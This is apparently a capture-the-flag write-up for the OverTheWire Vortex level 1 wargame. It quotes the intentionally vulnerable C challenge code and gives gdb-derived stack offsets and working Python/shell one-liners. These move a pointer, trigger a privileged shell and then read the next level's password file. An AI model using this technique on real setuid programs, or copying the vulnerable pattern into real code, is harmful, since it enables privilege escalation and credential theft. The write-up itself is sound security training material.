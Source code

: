 Challenge URL is <a href="http://www.overthewire.org/wargames/vortex/vortex1.shtml">HERE</a>

<<<CHALLENGE_CONTENT
Level 1

Canary Values
We are looking for a specific value in ptr. You may need to consider how bash handles EOF..
Reading Material
Smashing the Stack for Fun and Profit
Code listing (vortex1.c)

	 1 #include <stdlib.h>
	 2 #include <unistd.h>
	 3 #include <string.h>
	 4 #include <stdio.h>
	 5 
	 6 
	 7 #define e(); if(((unsigned int)ptr & 0xff000000)==0xca000000) { setresuid(geteuid(), geteuid(), geteuid()); execlp("/bin/sh", "sh", "-i", NULL); }
	 8 
	 9 void print(unsigned char *buf, int len)
	10 {
	11         int i;
	12 
	13         printf("[ ");
	14         for(i=0; i < len; i++) printf("%x ", buf[i]); 
	15         printf(" ]\n");
	16 }
	17 
	18 int main()
	19 {
	20         unsigned char buf[512];
	21         unsigned char *ptr = buf + (sizeof(buf)/2);
	22         unsigned int x;
	23 
	24         while((x = getchar()) != EOF) {
	25                 switch(x) {
	26                         case '\n': print(buf, sizeof(buf)); continue; break;
	27                         case '\\': ptr--; break; 
	28                         default: e(); if(ptr > buf + sizeof(buf)) continue; ptr++[0] = x; break;
	29                 }
	30         }
	31         printf("All done\n");
	32 }

CHALLENGE_CONTENT

Comment by me:

ESP --> 0xffffd520
ptr = 0x18(ESP) = 0xffffd538 --> 0xffffd63c
buffer = 0x1c(ESP) = 0xffffd53c

1. we can only write where ptr is pointing at (initially at 0xffffd63c)
2. ptr is located at $ESP+0x18 (from gdb), 
	ESP initially is at 0xffffd520
	ESP+0x18 = ESP+24 = 0xffffd538
3. So, we have to move the writing pointer to write at $ESP+0x18 located.
4. To move the writing pointer, from the program:
	type '\' : ptr--
	type other: ptr++
5. Therefore, moving the writing pointer back (0xffffd63c - 0xffffd538) = 260 
	Which means, type '\' * 260 times, then type '\xCA'
6. But when comparison, the program only check 'ptr' against 0xCA000000, which is the last byte of the 'ptr' pointer, so we only need to type '\' * 257 times then type '\xCA'. Let the '\xCA' saved, then put another character of anything to trigger the e() method again.
7. we can input into the program in another 2 ways(rather than type it in). We can use PIPE or REDIRECT, for example:
	using PIPE method : python -c 'print "\\"*257 +"\xCA"+"a"' | /vortex/vortex1
	or
	using REDIRECT method, by write to a file first, then redirect : 
		python -c 'print "\\"*257 +"\xCA"+"a"' > /tmp/anidear_vt1;
		/vortex/vortex1 < /tmp/anidear_vt1
8. Then comes the problem of EOF, either of the method will result in sending EOF(end-of-file) to the new spawn process(/bin/sh), which results in closing the shell.
9. by using 'cat' command to re-open the STDIN (for us to type in commands), after finish sending the exploit. So, we can:
	with PIPE method : 
		(python -c 'print "\\"*257 +"\xCA"+"a"'; cat) | /vortex/vortex1
	or
	with file method :
		(cat /tmp/anidear_vt1; cat) | /vortex/vortex1
		or
		(cat /tmp/anidear_vt1 - ) | /vortex/vortex1

10. After getting a shell, just 'cat /etc/vortex_pass/vortex2'. The password for next level is there.


OTHER WORK:
	- to compile code: gcc -o vortex1 -m32 -fno-stack-protector -Wl,-z,norelro vortex1.c

	- DEBUGGING
		- gdb /vortex/vortex1  		<<< To debug the process
		- disas						<<< (disassemble) show diassembly code of the process
		- b *0x080485b7				<<< (breakpoint) set breakpoint at 0x080485b7 (after mov    0x18(%esp),%eax) to read value in $eax, which is now the value of 'ptr'
		- r 						<<< (run) to run the process from start
		- r < /tmp/anidear_vt1		<<< (run) to run the process with arguments
		- x/x $eax					<<< view value in $eax
		- set $eax=0xca000000 		<<< set value in $eax to 0xCA000000
		- n 						<<< (next) run until exit the function
		- ni 						<<< (next instruction), step over
		- delete breakpoints		<<< delete all breakpoints
		- set inferior-tty /dev/pts/1 <<< enable STDIN for the child process
		- c 						<<< continue executions, runs
		- s   or   si				<<< (step) run next instruction, step into
		- start 					<<< just start the process, but not run

	- SOME ASSEMBLY
		0x080485b3 <+92>:	mov    0x18(%esp),%eax	<<<<<< where it reads from 'ptr'
		0x080485b7 <+96>:	and    $0xff000000,%eax
		0x080485bc <+101>:	cmp    $0xca000000,%eax		<<<<<< change to eax to 0xca000000
		0x080485c1 <+106>:	jne    0x8048602 <main+171> 	
		0x080485c3 <+108>:	call   0x8048440 <geteuid@plt>
		0x080485c8 <+113>:	mov    %eax,%esi
		0x080485ca <+115>:	call   0x8048440 <geteuid@plt>
		0x080485cf <+120>:	mov    %eax,%ebx
		0x080485d1 <+122>:	call   0x8048440 <geteuid@plt>


	- Conclusion with gdb debugging
		- easy to navigate and override the process flow. I can set any register to be anything as I want. 
		- the flaw is, when 'gdb' starts, it starts with our EUID (which is vortex1). When it spawn /vortex/vortex1 afterward, the process also has EUID=vortex1, which leads to /bin/sh to get the same EUID as vortex1 too.

	
